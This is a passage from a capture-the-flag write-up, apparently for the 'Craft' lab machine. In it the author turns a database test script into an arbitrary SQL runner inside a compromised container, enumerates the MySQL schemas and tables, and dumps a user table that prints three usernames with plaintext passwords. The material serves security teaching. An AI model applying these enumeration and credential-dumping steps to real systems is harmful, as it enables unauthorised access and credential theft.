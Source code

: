     # test connection to mysql database
                                                                   
    connection = pymysql.connect(host=settings.MYSQL_DATABASE_HOST,
                                 user=settings.MYSQL_DATABASE_USER,        
                                 password=settings.MYSQL_DATABASE_PASSWORD,
                                 db=settings.MYSQL_DATABASE_DB,         
                                 cursorclass=pymysql.cursors.DictCursor)
        
    try:                                   
        with connection.cursor() as cursor:                                 
            sql = sys.argv[1]
            cursor.execute(sql)       
            result = cursor.fetchall()
            print(result)
            
    finally:              
        connection.close()
    

It works:

    
    
    /opt/app # python .dbtest.py  'SELECT user()'
    [{'user()': 'craft@172.20.0.6'}]
    

#### Enumeration

I can get a list of the databases, and there’s only one interesting one,
`craft`:

    
    
    /opt/app # python .dbtest.py  "SELECT schema_name FROM information_schema.schemata;"
    [{'SCHEMA_NAME': 'information_schema'}, {'SCHEMA_NAME': 'craft'}]
    

The `craft` db has two tables:

    
    
    /opt/app # python .dbtest.py  "SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema'"
    [{'TABLE_SCHEMA': 'craft', 'TABLE_NAME': 'brew'}, {'TABLE_SCHEMA': 'craft', 'TABLE_NAME': 'user'}]
    

I knew `brew` from the api, but `user` is new. It has three entries:

    
    
    /opt/app # python .dbtest.py  "SELECT * from user"
    [{'id': 1, 'username': 'dinesh', 'password': '4aUh0A8PbVJxgd'}, {'id': 4, 'username': 'ebachman', 'password': 'llJ77D8QFkLPQB'}, {'id': 5, 'username': 'gilfoyle', 'password': 'ZEU3N8WNM2rh4T'}]
    

The dinesh password matches what I had found in gogs, but the other two are
new.

### Gogs
